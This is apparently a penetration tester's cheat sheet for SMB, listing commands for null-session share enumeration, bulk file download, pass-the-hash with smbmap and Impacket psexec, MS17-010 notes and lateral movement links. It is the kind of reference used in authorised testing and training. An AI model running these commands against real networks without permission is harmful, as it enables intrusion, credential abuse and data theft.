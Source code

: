 # SMB Tools

## SmbClient
```
[Enumerate SMB Shares - NULL Session] $smbclient -L //<ipaddress>
[Enumerate SMB Shares - NULL Session] $smbclient --no-pass -L //<ipaddress>
[Enumerate SMB Shares as Users] $smbclient -L //<ipaddress> -U <username> (when prompted enter pass)
[Connect to SMB Share] $smbclient //<ipaddress>/<sharename> -U <username>
```

## SmbClient Download All Files in Directory
```
smbclient //192.168.10.100/SHARENAME --no-pass
mask ""
recurse ON
prompt OFF
lcd .
mget *
```

## SmbMap
[URL] (https://github.com/ShawnDEvans/smbmap)
```
[Enumerate SMB Shares - NULL Session] $smbmap -H <ip address>
[Enumerate SMB Shares - User] smbmap -H 10.10.10.10 -u <user> -d <domain> -p <password>
smbmap -u <username> -p <password> -H <ip address> [-P <port>] #Creds
smbmap -u <username> -p "<NT>:<LM>" -H <ip address> [-P <port>] #Pass-the-Hash
```

## RPCClient
```
rpcclient -U "" -N 192.168.10.14
```

## Enum4linux
```
enum4linux -a -v -u <username> -p <password> <ip address>
```

## NMAP
```
nmap --script smb-enum-shares -p 139,445 <ip address>
```

## Mount SMB to Linux Filesystem
```
NOTE: May need to install cifs-utils (sudo apt install cifs-utils)
1) mkdir /mnt/<sharename>
2) sudo mount -t cifs //<ipaddress>/<sharename> /mnt/<sharename>
```

## Mount SMB to Linux Filesystem (with creds)
```
1) mkdir /mnt/<sharename>
2) sudo mount -t cifs -o 'username=<username>,password=<password>' //<ip address>/sharename /mnt/<sharename>
```

## NOTES ABOUT MS17-010
```
[URL] https://www.sevenlayers.com/index.php/146-unable-to-find-accessible-named-pipe
Essentially, sometimes you just need a set of creds to launch this attack - see write-up
```

## Resource on SMB and PTH
```
See Impacket Section: ./psexec.py Administrator@192.168.10.17 -hashes "HASH:HASH"
[URL] https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/
[URL] https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/
```

## Create and publish writable share (wont work SMB3)
```
net share mysharedfolder=c:\users\user-01\shared
Grant-SmbShareAccess -Name mysharedfolder -AccountName Administrators -AccessRight Full -Force
```